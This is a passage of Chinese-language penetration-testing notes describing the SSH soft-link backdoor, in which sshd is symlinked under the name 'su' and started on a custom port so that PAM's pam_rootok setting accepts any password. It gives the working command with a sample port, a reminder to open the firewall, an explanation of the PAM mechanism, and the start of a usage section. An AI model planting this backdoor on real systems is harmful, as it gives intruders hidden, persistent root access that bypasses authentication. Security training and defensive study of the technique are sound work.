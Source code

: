 1、创建后门

ln -sf /usr/sbin/sshd /路径名/su; /路径名/su -oPort=端口号

```bash
 ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345
 # 记得关闭防火墙或者防火墙放行该端口
```

2、任意密码登

ssh用户名@x.x.x.x -p 端口号

### 02 原理

------

在sshd服务配置启用PAM认证的前提下，PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登录。

通俗点来说，一是sshd服务启用PAM认证机制，在/etc/ssh/sshd_config文件中，设置UsePAM 为yes。如果不启用PAM，系统严格验证用户密码，不能建立后门。

二是在/etc/pam.d/目录下，对应文件里包含"auth sufficient pam_rootok.so"配置，只要PAM配置文件中包含此配置即可SSH任意密码登录。

![img](%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95v2-%E5%85%A8%E6%A0%88%E5%AE%89%E5%85%A8%E8%BF%9B%E9%98%B6%E7%8F%AD.assets/webp.webp)

直接启动/usr/sbin/sshd,默认使用/etc/pam.d/sshd的pam配置文件，因而不能建立任意密码登录的后门。

而通过软链接的方式，实质上PAM认证是通过软链接的文件名（如：/tmp/su,/home/su），在/etc/pam.d/目录下寻找对应的PAM配置文件(如：/etc/pam.d/su)。

#### sshd_config配置

![img](https:////upload-images.jianshu.io/upload_images/8628147-66f927c603547585?imageMogr2/auto-orient/strip|imageView2/2/w/554/format/webp)

#### PAM配置文件

![img](https:////upload-images.jianshu.io/upload_images/8628147-48290cf90684bd26?imageMogr2/auto-orient/strip|imageView2/2/w/554/format/webp)

### 03 利用

------

使用命令创建后门；通过前后对比，可以看到开启了12345端口并处于监听状态。
